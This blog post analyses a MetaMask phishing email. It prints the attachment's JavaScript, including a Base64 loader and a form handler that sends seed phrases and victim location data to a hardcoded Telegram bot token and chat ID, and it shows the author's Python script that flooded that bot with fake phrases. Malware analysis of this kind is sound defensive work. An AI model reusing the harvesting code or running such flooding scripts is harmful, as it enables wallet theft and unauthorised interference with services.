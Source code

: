 ```yaml
---
title: "Dissecting a MetaMask phishing email"
date: 2024-10-27T21:04:50+02:00
draft: false
tags: ["phishing"]
image: "002.png"
post_number: "002"
---
```


A few days ago, I received a pretty credible-looking MetaMask phishing email stating that my account had been locked due to an attempt to connect a new device to it. It sparked my interest and I decided to spend a bit of time looking into how the technical side of the whole campaign was structured, and potentially even disrupt it.

## Email attachment

The attached HTML file `RemovedDevice.html` contained a barebones HTML structure with a bit of JS and a long Base64 encoded string that'd get decoded and attached back to the HTML body using jQuery.

```javascript
$(document).ready(function () {
  saveFile();
});

function saveFile(name, type, data) {
  if (data != null && navigator.msSaveBlob)
    return navigator.msSaveBlob(new Blob([data], { type: type }), name);
  var a = $("<a style='display: none;'/>");

  var encodedStringAtoB = "<base64-encoded-string>";
  var decodedStringAtoB = atob(encodedStringAtoB);
  const myBlob = new Blob([decodedStringAtoB], { type: "text/html" });
  const url = window.URL.createObjectURL(myBlob);

  a.attr("href", url);
  $("body").append(a);
  a[0].click();
  window.URL.revokeObjectURL(url);
  a.remove();
}
```

The resulting page would display 12/15/18/21/24 input fields for crypto wallet seed phrases of varying lengths.

The backend of this campaign relied on Telegram, and as usual neither the API token nor the chat ID were even attempted to be obfuscated. This could be tied to the fact that even the template usage information was still present in the source code :^\)

Telegram's chat IDs are structured in a way where supergroups and channels always have IDs with -100 prefix, so it was straightforward to determine that this campaign's data was being exfiltrated into a private chat.

```javascript
// Add your telegram token,chatid
const token = "7686154983:AAFtpdY6iTjT7UiTK6cXh0fM2T4CKfjRHl0";
const chatId = "7839331161";
```

Before sending the gathered information to the chat, the JS snippet would also make a quick GET request to get the victim's public IP and related location data. I couldn't really figure out the point of this as MetaMask is a self-custodial wallet and doesn't utilize any kind of fraud prevention system that could stop the attacker from draining the targeted account if their geolocation didn't match the wallet's owner.

```javascript
wordForm1.addEventListener("submit", (e) => {
  e.preventDefault();
  errbox.classList.add("hide");
  let regex = /[!`@#$~%^&*()\-+={}[\]:;"'<>,.?\/|\\]/;
  let regex2 = /\d/;
  let pass = false;

  for (let i = 0; i < word12Input.length; i++) {
    if (regex.test(word12Input[i].value) || regex2.test(word12Input[i].value)) {
      pass = true;
    }
  }
  if (pass) {
    errbox.classList.remove("hide");
  } else {
    if (
      word12_1.value === "" ||
      word12_2.value === "" ||
      word12_3.value === "" ||
      word12_4.value === "" ||
      word12_5.value === "" ||
      word12_6.value === "" ||
      word12_7.value === "" ||
      word12_8.value === "" ||
      word12_9.value === "" ||
      word12_10.value === "" ||
      word12_11.value === "" ||
      word12_12.value === ""
    ) {
      btncofirm1.disabled = true;
    } else {
      preloader.classList.remove("hide");

      let data = `IP: ${ip.ip}\nRegion: ${ip.region}\nTime Zone: ${ip.timezone}\nWord 1: ${word12_1.value} \nWord 2: ${word12_2.value} \nWord 3: ${word12_3.value} \nWord 4: ${word12_4.value} \nWord 5: ${word12_5.value} \nWord 6: ${word12_6.value} \nWord 7: ${word12_7.value} \nWord 8: ${word12_8.value} \nWord 9: ${word12_9.value} \nWord 10: ${word12_10.value} \nWord 11: ${word12_11.value} \nWord 12: ${word12_12.value}`;
      postData(data);
      setTimeout(() => {
        preloader.classList.add("hide");
        noDone.classList.add("hide");
        done.classList.remove("hide");
        timer2(10);
      }, 4000);
    }
  }
});
```

## Greetings

Using the API token and the chat ID I was able to find out a bit more information about the bot itself via a getMe request and even flood the operator's inbox with randomly generated data to make it more difficult to detect any actual seed phrases from a large amount of made-up responses:

```json
{
  "ok": true,
  "result": {
    "id": 7686154983,
    "is_bot": true,
    "first_name": "wegomakeit",
    "username": "wegomakeit_bot",
    "can_join_groups": true,
    "can_read_all_group_messages": false,
    "supports_inline_queries": false,
    "can_connect_to_business": false,
    "has_main_web_app": false
  }
}
```

```python
import random
import requests
from time import sleep
from address import generate_residential_ip
from phrase import generate_seed_phrase, bip39_words

TOKEN = "7686154983:AAFtpdY6iTjT7UiTK6cXh0fM2T4CKfjRHl0"
CHAT_ID = "7839331161"
API_BASE_URL = f"https://api.telegram.org/bot{TOKEN}"


def construct_msg(words):
    ip, region, timezone = generate_residential_ip()
    phrase = generate_seed_phrase(words, random.choice([12, 15, 18, 21, 24]))

    ip_str = f"IP: {ip}\nRegion: {region}\nTime Zone: {timezone}\n"
    phrase_str = ""

    for i, w in enumerate(phrase):
        w_str = f"Word {i + 1}: {w} \n"
        phrase_str += w_str

    return ip_str + phrase_str


def send_msg(words, chat_id):
    payload = {"chat_id": chat_id, "text": construct_msg(words)}
    res = requests.post(f"{API_BASE_URL}/sendMessage", data=payload)
    print(res.text)


words = bip39_words()

while True:
    send_msg(words, CHAT_ID)
    sleep(random.randint(1, 10))
```

I left the bot running in a Docker container for some time, and in the end I was able to send roughly 10k messages before the operator revoked the API token. The whole campaign was ruined at this point as the original token was hardcoded into the attachment, and replacing it in the already-sent emails wouldn't be possible.

Next time I get a cryptocurrency-related phishing email like this, I'd like to try tracking the stolen funds by giving out the seed phrase of a fresh wallet with e.g. $5-10 USD worth of funds inside and see what kind of anti-forensic methods the attacker would utilize (although given the quality of this campaign, they'd probably just deposit immediately into a full-KYC CEX).
